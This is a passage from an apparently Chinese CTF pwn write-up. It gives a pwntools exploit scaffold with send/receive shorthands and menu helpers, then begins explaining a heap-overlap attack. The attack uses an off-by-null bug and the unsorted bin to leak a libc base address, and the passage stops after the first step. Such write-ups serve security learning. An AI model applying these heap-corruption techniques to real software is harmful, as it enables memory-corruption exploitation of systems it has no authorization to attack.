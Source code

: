 	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims   :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg=lambda address,data:log.success('%s: '%(address)+hex(data))
	
	 
	def add(size):
		ru("Choice: \n")
		sl('1')
		ru("Size: ")
		sl(str(size))
	
	def free(index):
		ru("Choice: \n")
		sl('3')
		ru("Index: ")
		sl(str(index))
	
	def show(index):
		ru("Choice: \n")
		sl('4')
		ru("Index: ")
		sl(str(index))
	
	def edit(index, content):
		ru("Choice: \n")
		sl('2')
		ru("Index: ")
		sl(str(index))
		ru("Content: ")
		s(content)

### 首先构造堆块重叠，泄露libc基地址
先申请四个chunk，申请的chunk真正大小分别为0x90,0x70,0x100,0x20,
chunk_3是为了free前三个chunk后防止堆块合并
 
	add(0x80)#0
	add(0x68)#1
	add(0xf0)#2
	add(0x18)#3
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/b273495bb0594e12a61988abd446ee94.png)
之后free chunk_0，此时因为禁用了fastbin，所以chunk_0直接进入了unsortedbin里，再利用off-by-null漏洞修改chunk_2的pre_size为0x100（chunk_0+chunk_1正好就是0x100），修改chunk_2的size为0x100，使他处于free状态。
